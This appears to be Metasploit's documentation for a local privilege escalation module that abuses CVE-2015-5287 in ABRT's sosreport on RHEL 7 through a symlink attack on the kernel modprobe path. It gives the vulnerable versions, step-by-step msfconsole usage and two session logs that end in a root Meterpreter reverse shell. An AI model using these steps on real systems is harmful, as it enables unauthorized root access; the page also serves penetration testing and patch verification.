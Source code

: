 ## Description

  This module attempts to gain root privileges on RHEL systems with
  a vulnerable version of Automatic Bug Reporting Tool (ABRT) configured
  as the crash handler.

  `sosreport` uses an insecure temporary directory, allowing local users
  to write to arbitrary files (CVE-2015-5287). This module uses a symlink
  attack on `/var/tmp/abrt/cc-*$pid/` to overwrite the `modprobe` path
  in `/proc/sys/kernel/modprobe`, resulting in root privileges.

  Waiting for `sosreport` could take a few minutes.


## Vulnerable Application

  This module has been tested successfully on:

  * abrt 2.1.11-12.el7 on RHEL 7.0 x86_64
  * abrt 2.1.11-19.el7 on RHEL 7.1 x86_64


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/abrt_sosreport_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **TIMEOUT**

  Timeout for `sosreport` (seconds) (default: `600`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Red Hat Enterprise Linux 7.0 (x64)

  ```
  msf > use exploit/linux/local/abrt_sosreport_priv_esc
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_sosreport_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] System is configured to use ABRT for crash reporting
  [+] abrt-ccpp service is running
  [+] ABRT package version 2.1.11-12.el7 is vulnerable
  [+] python is installed
  [*] Writing '/tmp/.DcxBT2w' (2756 bytes) ...
  [*] Writing '/tmp/.HUAWYz' (207 bytes) ...
  [*] Launching exploit - This might take a few minutes (Timeout: 600s) ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.151
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.151:50843) at 2019-04-20 07:21:24 -0400
  [+] Deleted /tmp/.DcxBT2w
  [+] Deleted /tmp/.HUAWYz
  [+] Deleted /tmp/hax.sh
  [*] waiting for sosreport to finish (can take several minutes)....................

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-123.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```


### Red Hat Enterprise Linux 7.1 (x64)

  ```
  msf > use exploit/linux/local/abrt_sosreport_priv_esc
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_sosreport_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] System is configured to use ABRT for crash reporting
  [+] abrt-ccpp service is running
  [+] ABRT package version 2.1.11-19.el7 is vulnerable
  [+] python is installed
  [*] Writing '/tmp/.gFrwiGr' (2756 bytes) ...
  [*] Writing '/tmp/.NA4fwK' (207 bytes) ...
  [*] Launching exploit - This might take a few minutes (Timeout: 600s) ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.218
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.218:51022) at 2019-04-20 07:23:24 -0400
  [*] waiting for sosreport to finish (can take several minutes)..............

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

